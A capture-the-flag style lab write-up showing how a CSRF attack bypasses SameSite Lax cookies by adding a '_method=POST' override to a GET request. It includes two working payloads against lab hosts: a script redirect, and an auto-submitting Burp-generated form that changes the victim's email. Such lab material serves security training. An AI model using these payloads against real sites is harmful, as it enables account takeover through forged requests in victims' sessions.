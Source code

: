 # Practitioner Lab 83: SameSite Lax bypass via method override

---

This lab's change email function is vulnerable to CSRF. To solve the lab, perform a CSRF attack that changes the victim's email address. You should use the provided exploit server to host your attack.

You can log in to your own account using the following credentials: `wiener:peter`

I went and looked at the email change request and then I started to play around with the request. I tried a normal request and it did not work obviously, I then tried to add the _method but this also did not work 

Lastly I used this payload

```
<script>  
  document.location = "https://0abc006504a427978087081b009d0074.web-security-academy.net/my-account/change-email?email=newEmail@newme&_method=POST";
</script>

```

this allowed me to add a Post request at the end this lying to the server and bypassing the default samesite LAX cookie.

![Untitled](Practitioner%20Lab%2083%20SameSite%20Lax%20bypass%20via%20method%20d19887a8bca84c20b4b2c4d229893340/Untitled.png)

Another way I could of done it was by using the same csrf payload ive done before but make the main request a GET and then change it to a post using the _method to a POST.

```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0a9a00cd037eb89c80d92be7004600ce.web-security-academy.net/my-account/change-email" method="GET">
      <input type="hidden" name="_method" value="POST">
      <input type="hidden" name="email" value="evilpayload&#64;evil&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>
```
